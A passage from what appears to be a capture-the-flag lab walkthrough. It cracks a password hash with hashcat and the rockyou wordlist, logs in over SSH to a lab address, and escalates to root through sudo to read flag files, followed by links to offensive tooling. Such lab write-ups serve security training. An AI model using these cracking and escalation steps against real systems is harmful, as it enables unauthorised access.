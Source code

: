 ```
echo -n '046385855FC9580393853D8E81F240B66FE9A7B8' > sha1.txt
hashcat -a 0 -m 0 sha1.txt /usr/share/wordlists/rockyou.txt
```

![](<../../.gitbook/assets/Screenshot from 2020-08-28 14-15-28.png>)

```
ssh nyan@10.10.45.5
cat user.txt
```

![](<../../.gitbook/assets/Screenshot from 2020-08-28 14-16-14.png>)

### #2 **What is the root.txt**

```
sudo -l
sudo /bin/su -
cat /root.txt
```

![](<../../.gitbook/assets/Screenshot from 2020-08-28 14-21-29.png>)

## Support Material

{% embed url="https://github.com/sullo/nikto/wiki/Plugin-list" %}

{% embed url="https://github.com/SecureAuthCorp/impacket" %}

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings" %}

{% embed url="https://github.com/diego-treitos/linux-smart-enumeration" %}

{% embed url="https://github.com/mzet-/linux-exploit-suggester" %}

{% embed url="https://gtfobins.github.io/" %}

{% embed url="https://www.fuzzysecurity.com/tutorials/16.html" %}

{% embed url="https://github.com/411Hall/JAWS" %}

